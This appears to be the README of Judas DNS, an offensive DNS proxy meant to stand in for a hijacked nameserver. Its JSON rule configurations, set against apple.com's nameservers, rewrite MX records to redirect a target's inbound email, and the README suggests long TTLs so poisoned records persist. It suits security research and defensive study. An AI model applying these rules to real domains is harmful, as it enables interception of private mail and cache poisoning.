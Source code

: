 # Judas DNS
A DNS proxy server built to be deployed in place of a taken over nameserver to perform targeted exploitation. Judas works by proxying all DNS queries to the legitimate nameservers for a domain. The magic comes with Judas's rule configurations which allow you to change DNS responses depending on source IP or DNS query type. This allows an attacker to configure a malicious nameserver to do things like selectively re-route inbound email coming from specified source IP ranges (via modified MX records), set extremely long TTLs to keep poisoned records cached, and more.

# Example Config
The following is an example configuration for Judas for an example scenario where an attacker has comprimised/taken over one of Apple's authoritative nameservers (for `apple.com`):

```json
{
    "version": "1.0.0",
    "port": 2248,
    "dns_query_timeout": 10000,
    "target_nameservers": [ "17.254.0.59", "17.254.0.50", "17.112.144.50", "17.112.144.59", "17.171.63.30", "17.171.63.40", "17.151.0.151", "17.151.0.152" ],
    "rules": [
        {
            "name": "Secretly redirect all emails coming from 127.0.0.1!",
            "query_type_matches": [ "MX" ],
            "ip_range_matches": [ "127.0.0.1/32" ],
            "modifications": [
                {
                    "answer": [
                        {
                            "name": "apple.com",
                            "type": 15,
                            "class": 1,
                            "ttl": 10,
                            "priority": 10,
                            "exchange": "hacktheplace.localhost"
                        }
                    ]
                }
            ]
        },
        {
            "name": "Make all responses NOERROR even if they've failed.",
            "query_type_matches": [ "*" ],
            "modifications": [
                {
                    "header": {
                        "rcode": 0
                    }
                }
            ]
        }
    ]
}
```
The above configuration value purposes are the following:

* `version`: The configuration file format version (for now is always `1.0.0`).
* `port`: The port Judas should run on.
* `dns_query_timeout`: How long to wait in milliseconds before giving up on a reply from the upstream target nameserver.
* `target_nameservers`: The legit nameservers for your target domain, all DNS queries will be sent here from Judas on behalf of all requesting clients.
* `rules`: A list of rules with modifications to the DNS response to apply if matched.
	* `name`: Name of a given rule.
	* `query_type_matches`: List of query types to match on such as `CNAME`, `A`, etc. A wildcard (`*`) can also be specified to match any query type.
	* `ip_range_matches`: List of IP ranges to match on. For selectively spoofing responses to a specific range of IPs.
	* `modifications`: See the "Modifications" section of this README.

# Modifications
Judas's rules come with a `modifications` specification which is set to a list of varying modifications to make to the DNS response before it is sent back to the client. It is important that you read the [`node-dns` documentation](https://github.com/tjfontaine/node-dns#packet) to understand the DNS response structure so you can modify it.

An example DNS response format is the following:

```
{ header: 
   { id: 25373,
     qr: 1,
     opcode: 0,
     aa: 1,
     tc: 0,
     rd: 1,
     ra: 0,
     res1: 0,
     res2: 0,
     res3: 0,
     rcode: 5 },
  question: [ { name: 'apple.com', type: 2, class: 1 } ],
  answer: 
   [ { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver2.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver4.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver3.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver5.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver6.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'adns2.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'adns1.apple.com' } ],
  authority: [],
  additional: [],
  edns_options: [],
  payload: undefined,
  address: undefined,
...trimmed for brevity...
```
(For more information on the DNS response data structure see [this documentation](https://github.com/tjfontaine/node-dns#packet).)

Writing a modification is very simple, an example rule with modification can be seen below:

```json
{
  "name": "Make all responses NOERROR even if they've failed.",
  "query_type_matches": [ "*" ],
  "modifications": [
    {
      "header": {
        "rcode": 0
      }
    }
  ]
}
```

The above rule matches any query type (due to the wildcard (`*`)) and sets the `header.rcode` value of the DNS response to `0`. Whatever object is set as a modification element is merged into the DNS response - replacing whatever value was originally set.

Another example is the following:

```json
{
  "name": "Secretly redirect all emails coming from 127.0.0.1!",
  "query_type_matches": [ "MX" ],
  "ip_range_matches": [ "127.0.0.1/32" ],
  "modifications": [
    {
      "answer": [
        {
          "name": "apple.com",
          "type": 15,
          "class": 1,
          "ttl": 10,
          "priority": 10,
          "exchange": "hacktheplace.localhost"
        }
      ]
    }
  ]
}
```

The above rule matches any `MX` query from `127.0.0.1`. The DNS response's answer is overwritten with a single MX record for `hacktheplace.localhost`. A real world implementation of this would be to redirect inbound emails from a specific IP in order to read private emails of your target. Additionally an attacker in a real world scenario may also choose to modify the response TTL to be a very high value in order to persist their malicious records in client DNS caches as long as possible.